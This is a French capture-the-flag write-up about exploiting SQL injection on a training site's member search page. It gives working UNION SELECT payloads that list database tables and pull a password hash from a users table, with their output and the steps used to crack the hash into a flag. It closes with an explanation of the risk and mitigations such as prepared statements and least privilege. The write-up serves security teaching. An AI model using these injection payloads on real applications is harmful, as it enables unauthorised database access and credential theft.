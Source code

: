 # Explications
Injection SQL dans cette page ==> "http://ip/index.php?page=member",
dans le text field on test "1 or 1=1", lorsque l on soumet "1 or 1=1", la condition 1=1 est toujours vraie, donc si la requête SQL est mal construite, cela peut entraîner le renvoi de toutes les lignes de la table, révélant potentiellement des informations sensibles.

avec cette commande:
```
1 or 1=1 UNION SELECT table_name, table_schema FROM information_schema.tables -- 
```
on peut lister toutes les tables de la db et l on trouve une table nomme "users" 
"
ID: 1 or 1=1 UNION SELECT table_name, table_schema FROM information_schema.tables -- 
First name: users
Surname : Member_Sql_Injection
"
apres beaucoup de CMD essaye parfois sans convictions cette commande "1 or 1=1 UNION SELECT Commentaire,  countersign FROM users --"

nous fait obtenir 
"
ID: 1 or 1=1 UNION SELECT Commentaire,  countersign FROM users -- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
"
je vais sur ce site "https://www.dcode.fr/fonction-hash" pour decrypter le pass ce qui me donne "FortyTwo" puis sur ce site "https://emn178.github.io/online-tools/sha256.html" j entre "fortytwo" pour avoir le flag.

# Malveillant
injection SQL est une vulnérabilité de sécurité qui permet à un attaquant d'interférer avec les requêtes d'une base de données. Cela peut permettre à l'attaquant de visualiser, modifier ou supprimer des données, ce qui peut avoir des conséquences graves sur la confidentialité, l'intégrité et la disponibilité des données de l'application.

# Regler
Utiliser des Requêtes Préparées (Prepared Statements): Cela permet de séparer clairement les données des instructions SQL, empêchant l'interprétation des entrées utilisateur comme des commandes SQL.
Valider et Nettoyer les Entrées Utilisateur: Assurez-vous que toutes les entrées correspondent au format attendu avant de les traiter.
Principe du Moindre Privilège: Limitez les droits de l'utilisateur de la base de données connecté par l'application à seulement ce qui est nécessaire pour fonctionner.
Utiliser des Mécanismes de Protection comme WAF (Web Application Firewalls): Ils peuvent aider à détecter et à bloquer les tentatives d'injection SQL.
